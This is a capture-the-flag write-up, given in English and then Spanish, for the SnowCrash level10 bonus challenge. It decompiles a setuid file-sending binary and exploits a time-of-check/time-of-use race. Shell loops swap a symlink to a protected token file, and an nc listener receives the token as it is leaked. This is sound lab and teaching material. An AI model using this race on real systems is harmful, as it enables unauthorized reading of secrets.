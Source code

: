 ### LEVEL10 (BONUS)


- Two files with these permissions:    
    ```bash
    -rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10*
    -rw-------  1 flag10  flag10     26 Mar  5  2016 token
    ```

- Execute ./level10
    ```bash
    level10@SnowCrash:~$ ./level10
    ./level10 file host
    sends file to host if you have access to it
    ```

- I create a file in tmp and execute on it.
    ```bash
    level10@SnowCrash:~$ echo "HOLA" > /tmp/a
    level10@SnowCrash:~$ ./level10 /tmp/a
    ./level10 file host
	sends file to host if you have access to it
	level10@SnowCrash:~$ ./level10 /tmp/a $(hostname -I)
    Connecting to 192.168.1.36:6969 .. Unable to connect to host 192.168.1.36
    ```

- It seems that `./level10` sends the content of a file to an IP.

- We download the level10 file locally.
    ```bash 
    scp -P 4242 level10@192.168.1.36:/home/user/level10/level10 . 
    ```

- We decompile with Ghidra.

- In the main function, we find:
    ```c
    [...]
    38 printf("Connecting to %s:6969 .. ",__cp)
    [...]
    ```
- The port it expects the connection on is `6969`.

- We use `tmux` on the snow-crash machine.

- Console1:
    ```bash
    level10@SnowCrash:~$ echo "HOLA" > /tmp/a
    ```

- Console2:
    ```bash
    level10@SnowCrash:~$ nc -l 6969
    ```
- Then...


- Console1:
    ```bash
    level10@SnowCrash:~$ ./level10 /tmp/a $(hostname -I)
    ```

- Console2 output:
    ```bash
    .*( )*.
    HOLA
    ```
- Alright, we know what it does.

- Let's go back to Ghidra.

- We see:
    ```c
    [...]
    36  iVar2 = access((char *)in_stack_00000008[1],4);
    37  if (iVar2 == 0) 
    [...]
    89  else {
    90    iVar2 = printf("You don\'t have access to %s\n",pcVar6);
    91  }
    [...]
    ```

- It only sends the file if we have permissions on the file.

- But there's a possible attack vector, TOCTOU (Time-of-check to time-to-use).

https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use

https://lucabarile.github.io/Blog/toctou/index.html

- Console1:
    ```bash
    level10@SnowCrash:~$ while true; do ./level10 /tmp/a $(hostname -I); done
    ```

- Console2:
    ```bash
    level10@SnowCrash:~$ while true; do echo "" > /tmp/a; rm -f /tmp/a; ln -s ~/token /tmp/a; rm -f /tmp/a; done
    ```

- Console3:
    ```bash
    level10@SnowCrash:~$ while true; do nc -l 6969 | grep -v "\( \)"; done
    ```

- We have the password :)

---

### LEVEL10 (BONUS)

- Dos archivos con estos permisos:
    ```bash
    -rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10*
    -rw-------  1 flag10  flag10     26 Mar  5  2016 token
    ```

- Ejecuto ./level10
    ```bash
    level10@SnowCrash:~$ ./level10
    ./level10 file host
    sends file to host if you have access to it
    ```

- Creo un archivo en tmp y ejecuto sobre este
    ```bash
    level10@SnowCrash:~$ echo "HOLA" > /tmp/a
    level10@SnowCrash:~$ ./level10 /tmp/a
    ./level10 file host
	sends file to host if you have access to it
	level10@SnowCrash:~$ ./level10 /tmp/a $(hostname -I)
    Connecting to 192.168.1.36:6969 .. Unable to connect to host 192.168.1.36
    ```

- Parece que `./level10` envía el contenido de una archivo a una ip

- Descargamos en local el archivo level10
    ```bash 
    scp -P 4242 level10@192.168.1.36:/home/user/level10/level10 . 

    ```

- Descompilamos con Ghidra

- En el main encontramos:
    ```c
    [...]
    38 printf("Connecting to %s:6969 .. ",__cp)
    [...]
    ```
- El puerto que espera la conexion es el `6969`

- Usamos `tmux` en la maquina snow-crash

- Console1:
    ```bash
    level10@SnowCrash:~$ echo "HOLA" > /tmp/a
    ```

- Console2:
    ```bash
    level10@SnowCrash:~$ nc -l 6969
    ```

- Luego...

- Console1:
    ```bash
    level10@SnowCrash:~$ ./level10 /tmp/a $(hostname -I)
    ```

- Console2 output:
    ```bash
    .*( )*.
    HOLA
    ```

- Bien, sabemos lo que hace

- Volvemos a Ghidra

- Vemos:
    ```c
    [...]
    36  iVar2 = access((char *)in_stack_00000008[1],4);
    37  if (iVar2 == 0) 
    [...]
    89  else {
    90    iVar2 = printf("You don\'t have access to %s\n",pcVar6);
    91  }
    [...]
    ```

- Solo envía el archivo si tenemos permisos en el archivo

- Pero hay un posible vector de ataque TOCTOU(Time-of-check to time-to-use)

https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use

https://lucabarile.github.io/Blog/toctou/index.html

- Console1:
    ```bash
    level10@SnowCrash:~$ while true; do ./level10 /tmp/a $(hostname -I); done
    ```

- Console2:
    ```bash
    level10@SnowCrash:~$ while true; do echo "" > /tmp/a; rm -f /tmp/a; ln -s ~/token /tmp/a; rm -f /tmp/a; done
    ```

- Console3:
    ```bash
    level10@SnowCrash:~$ while true; do nc -l 6969 | grep -v "\( \)"; done
    ```

- tenemos la pass :)


